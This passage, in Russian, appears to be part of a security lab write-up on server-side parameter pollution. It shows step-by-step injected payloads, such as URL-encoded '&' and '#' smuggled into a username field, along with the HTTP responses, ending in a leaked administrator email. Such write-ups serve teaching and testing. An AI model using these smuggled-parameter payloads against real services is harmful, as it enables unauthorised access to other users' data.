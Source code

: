```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 40

{"error": "Parameter is not supported."}
```

Значит `&` можно использовать, чтобы добавить второй аргумент в запрос. Попробую символ `#` для разделения запроса `administrator%23foo`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"error": "Field not specified."}
```

Из этого можно сделать вывод, что запрос разделился. И для его валидации не хватает заполненного поля `filed`. Пробую следующий пейлоад:

```
administrator%26field=a%23
```

Ответ:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 58

{"type":"ClientError","code":400,"error":"Invalid field."}
```

Запрос сработал, но нужно правильно подобрать значение для `field`. Ранее я находил поле `email`. Попробую подставить его:

```
administrator%26field=email%23
```

Получилось.

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```
